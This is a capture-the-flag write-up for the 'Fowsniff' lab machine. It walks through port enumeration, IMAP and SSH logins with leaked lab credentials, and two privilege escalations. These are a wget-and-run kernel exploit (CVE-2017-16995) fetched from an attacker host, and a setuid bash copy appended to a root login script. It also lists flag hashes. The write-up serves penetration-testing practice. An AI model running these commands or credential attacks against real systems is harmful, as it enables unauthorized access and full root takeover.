






# Fowsniff

**IP Address:** 192.168.90.18

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22 ssh | OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0) |
| 80 | http | Apache httpd 2.4.18 ((Ubuntu)) |
| 110 | pop3 | Dovecot pop3d |
| 143 | imap | Dovecot imapd |

## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Navigating to the webpage we can see that the company has been hacked. 



2. The website mentions that the twitter account has also been hacked so we go there to have a look. 




3. This leeds us to a pastebin link of credentials, all but one of these can be cracked using an online service. 


4. We can use the credentials for seina's account to login to the IMAP service and select her inbox. 

Commands
```
telnet $ip 143
A1 LOGIN seina scoobydoo2
A1 SELECT INBOX
```


5. We can then see the following emails. One gives us a SSH password. The other gives us more usernames. 

Commands
```
A1 FETCH 1 body[text]
A1 FETCH 2 body[text]
```



6. Trying the SSH password against the list of users we already have we find that we can login using the baksteen username and the found SSH password. 

Commands
```bash
ssh baksteen@$ip
S1ck3nBluff+secureshell
whoami
cat local.txt
```


## Privilege Escalation #1
### Exploit Details (SearchSploit)
* **Name** - Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation 
* **CVE** - 2017-16995
* **Module** - linux/local/44298.c
* **Disclosed** - 2018-03-16 
* **References**
  * https://nvd.nist.gov/vuln/detail/CVE-2017-16995
  * https://www.exploit-db.com/exploits/44298

Commands
```bash
wget http://$lhost/linux/exploits/kernel/44298; chmod +x 44298; ./44298
whoami
cat /root/proof.txt
```


## Privilege Escalation #2
### Exploit Details (Permissions)
* **Name** - N/A
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

A script that executes on login (with root permissions) can be edited. 

1. Modify the script to create a rootshell. Then login again to trigger the script to be run. Then simply execute the rootshell. 

Commands
```
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /opt/cube/cube.sh
ssh baksteen@$ip
S1ck3nBluff+secureshell
/tmp/rootbash -p
whoami
cat /root/proof.txt
```




## Loot
```
local.txt
112ea66a2d263d1f74ff55799551925b
proof.txt
1ca4d957a1847e1ff8f9e51ed1ca6e07
```